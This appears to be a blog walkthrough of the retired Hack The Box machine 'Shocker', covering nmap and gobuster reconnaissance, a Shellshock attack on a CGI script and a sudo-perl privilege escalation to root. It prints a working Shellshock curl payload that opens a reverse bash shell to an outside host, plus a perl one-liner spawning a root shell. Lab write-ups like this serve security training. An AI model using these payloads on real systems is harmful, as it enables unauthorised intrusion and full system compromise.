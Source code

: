 ```yaml
---
layout: post
title: "HTB-Shocker"
date: 2020-02-16 22:02:00 +0000
categories: HTB-Walkthrough
---
```


![shocker](/assets/img/shocker.png)

This is another box from the HTB 'retired' list, it's also very much like one of the boxes found in the PWK labs on the way to the OSCP qualification.

Jumping in with Nmap then...

`nmap -sV -Pn 10.10.10.56 |tee -a shock.txt`

```

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Unusual to find ssh on a port other than 22, a bit of security through obscurity perhaps, it may mean that it is somehow otherwise vulnerable.
Lets check out this possibility with nmap...

```

root@kali:~/HTB/prep/shocker# nmap -sSV 10.10.10.56 --script=vuln |tee -a shock.txt 
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-09 18:40 GMT
Nmap scan report for 10.10.10.56
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Nothing immediately apparent, and nikto on the webport 80 gives nothing.

gobuster finds /cgi-bin with a common.txt scan...we'll scan again looking for scripts...

```

root@kali:~/HTB/retired# gobuster dir -u http://10.10.10.56/cgi-bin/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -x .sh,.txt,.php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        10
[+] Wordlist:       /root/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     sh,txt,php
[+] Timeout:        10s
===============================================================
2020/02/16 18:16:23 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.sh (Status: 403)
/.hta.txt (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.sh (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.sh (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.php (Status: 403)
/user.sh (Status: 200)
===============================================================
2020/02/16 18:19:33 Finished
===============================================================

```

/user.sh needs to be looked at...

```

Content-Type: text/plain

Just an uptime test script

 18:24:12 up 54 min,  0 users,  load average: 0.01, 0.00, 0.00

```

Well, nothing usefull in itself, but what it does mean (cgi-bin accessible), is that this installation of Apache will likely be vulnerable to a Shellshock exploit.

```

curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.34/6969 0>&1' http://10.10.10.56/cgi-bin/user.sh

```

This attempt works straight off the bat...Shellshock is  an important vulnerability to know about.
[Wiki on shellshock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29)

###############################################################

So we got user shell on the target...

```

shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

sudo -l is always one of the first commands I try when I get an user shell, for this sort of reason.
Getting root now is very simple. Shelly can execute a perl command or script using sudo (which gives 'super user' privileges) without having to enter a password.
We can use this to invoke a bash shell that will reflect the privileges of the user that called it. Since sudo commands are run 'as root', the resulting shell will be a root shell.

```

shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/home/shelly
ls
user.txt
cat user.txt
2exxxxxxxxxxxxxxxxxxxxxxxxxxxx33
cat /root/root.txt
5xxxxxxxxxxxxxxxxxxxxxxxxxxxxx67

```

###########################################

Simple when you know.
